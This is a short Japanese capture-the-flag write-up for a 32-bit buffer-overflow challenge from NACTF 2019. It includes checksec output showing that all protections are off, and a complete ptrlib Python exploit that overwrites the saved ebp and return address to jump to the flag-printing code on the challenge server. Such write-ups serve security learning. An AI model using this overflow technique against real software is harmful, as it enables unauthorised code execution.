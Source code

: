 # [pwn 200pts] BufferOverflow #2 - Network Academia CTF 2019
32ビットバイナリで、全部無効です。
```
$ checksec -f bufover-2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   72 Symbols     No       0               6       bufover-2
```

win関数にflagを出力する処理がありますが、引数を設定しないといけません。面倒なのでフラグを出力する場所に直接ジャンプします。
```python
from ptrlib import *

elf = ELF("./bufover-2")
#sock = Process("./bufover-2")
sock = Socket("shell.2019.nactf.com", 31184)
payload = b'A' * 0x18
payload += p32(elf.section(".bss") + 0x300) # ebp
payload += p32(0x804921F)
sock.sendlineafter(">", payload)

sock.interactive()
```

# 感想
簡単ですね。